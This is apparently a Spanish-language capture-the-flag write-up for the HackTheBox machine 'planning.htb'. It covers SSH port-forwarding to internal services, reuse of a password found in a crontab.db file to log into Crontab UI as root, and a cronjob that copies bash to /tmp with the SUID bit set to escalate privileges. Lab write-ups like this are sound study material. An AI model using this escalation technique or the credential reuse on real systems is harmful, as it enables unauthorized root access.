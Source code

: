 ```bash
tcp        0      0 127.0.0.1:34799         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -           

```

Empezamos a hacer tuneles puerto por puerto de esta manera

```bash
ssh enzo@planning.htb -L 8000:localhost:8000 
```

Puerto `3000` puerto de grafana 
![[Pasted image 20250511134313.png]]

![[Pasted image 20250511134447.png]]

El puerto `8000` parece un servicio web interesante pero nos pide una contraseña 
![[Pasted image 20250511135108.png]]
![[Pasted image 20250511135117.png]]

Encontramos un archivo con credenciales `/opt/crontabs/crontab.db`
Este no es un archivo .db si no un json que le indica instrucciones a cron para un posible script o servicio personalizado.
![[Pasted image 20250511135233.png]]

Si probamos la password del archivo junto al usuario root nos encontramos ante una pagina crontab UI para crear cronjobs ; y parece que los creamos como root. Desde aqui es sencillo relativamente escalar; ademas observamos como el archivo anterior se esta parseando en la UI de modo que asumo que estaba ahi para ser parseado a la web
https://github.com/alseambusher/crontab-ui
![[Pasted image 20250511135353.png]]

Para escalar a root creamos un cronjob que nos copie el bash al tmp con el bit suid de root
```bash
* * * * * cp /bin/bash /tmp/bash && chmod +s /tmp/bash
```

![[Pasted image 20250511135716.png]]

![[Pasted image 20250511135829.png]]